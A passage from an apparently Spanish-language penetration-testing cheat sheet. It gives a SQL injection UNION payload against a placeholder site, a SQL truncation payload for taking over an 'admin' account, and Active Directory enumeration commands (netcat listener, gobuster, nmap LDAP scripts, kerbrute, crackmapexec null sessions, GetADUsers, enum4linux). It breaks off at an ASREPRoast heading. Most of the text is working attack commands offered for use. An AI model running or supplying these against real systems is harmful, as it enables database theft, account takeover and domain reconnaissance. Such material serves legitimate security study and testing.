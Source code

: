 `http://fakesite.com/report.php?id=-23 union Select 1,2,concat(column1,column2),4,5 from tablename limit 0,1` # imprimimos los datos de la columna

## SQL Truncatión

La vulnerabilidad de truncamiento de SQL ocurre cuando una base de datos trunca la entrada del usuario debido a una restricción en la longitud.
El atacante puede crear un usuario 'admin' con su propia contraseña. Ahora, la base de datos tiene dos entradas de administrador 'username', pero con diferentes contraseñas. El atacante puede iniciar sesión con las credenciales recién creadas para obtener un panel de administración porque los nombres de usuario "admin" y "admin" son iguales para el nivel de la base de datos.

`username=admin++++++++(max.longitud)&password=testpwn123`  # Ejemplo de truncamiento, la base de datos eliminará el texto sobrante para que quepa en la base de datos, y despreciará caracteres extraños y/o espacios. 

# Active Directory

*Para entender mejor kerberos, recomiendo visitar mi explicación en GitHub.*

## Enumeración

*Enumerar y escuchar en puertos de impresoras, puede reportar credenciales en texto claro*

`nc -vv -l -p 444` # Escuchando por el puerto de impresora.

*Enumerar DNS podría brindar información sobre servidores clave en el dominio como web, impresoras, recursos compartidos, etc...*

`gobuster dns -d domain.local -t 25 -w /opt/Seclist/Discovery/DNS/subdomain-top2000.txt` # Enumerar DNS del domain.

**Verificamos el acceso con credenciales nulas o invitados a servicios smb [Mirar apartado SMB]**

**Enumeramos LDAP**

`nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP> ` # Enumeramos ldap con script de nmap

**Enumeramos AD en busca de usuarios validos**

`./kerbrute_linux_amd64 userenum -d domain.htb diccionario_Usuarios.txt` # Utilizamos un script "kerbrute" para listar usuarios con wordlist.

`crackmapexec smb domain.htb  -u '' -p '' --users` # Si tenemos acceso con usuario nulo, podemos listar usuarios con crackmapexec.

**Enumeramos todos los usuarios del directorio activo**

*Cuando tenemos* **credenciales validas** *, podemos enumerar todos los usuarios existentes.*

`GetADUsers.py -all -dc-ip 10.10.10.110 domain.com/username` # enumeramos con GetADUsers, un script en Python

`enum4linux -a -u "user" -p "password" <DC IP>` # Enumeramos con enum4linux

## ASREPRoast
